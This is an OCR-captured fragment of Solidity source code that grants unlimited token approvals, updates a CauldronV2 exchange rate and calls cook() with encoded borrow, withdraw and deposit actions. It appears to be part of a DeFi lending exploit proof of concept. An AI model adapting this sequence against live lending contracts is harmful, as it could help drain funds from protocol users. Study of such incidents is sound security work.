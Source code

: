 │         // set contract apporval                                                                                                                                                                                                                     │
│         NXUSD.approve(address(CRVPool1), type(uint).max);                                                                                                                                                                                            │
│         Pair.approve(address(DegenBox), type(uint).max);                                                                                                                                                                                             │
│         DegenBox.setMasterContractApproval(                                                                                                                                                                                                          │
│             address(this),                                                                                                                                                                                                                           │
│             masterContract,                                                                                                                                                                                                                          │
│             true,                                                                                                                                                                                                                                    │
│             0,                                                                                                                                                                                                                                       │
│             0,                                                                                                                                                                                                                                       │
│             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│         // update rate                                                                                                                                                                                                                               │
│         CauldronV2.updateExchangeRate();                                                                                                                                                                                                             │
│         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │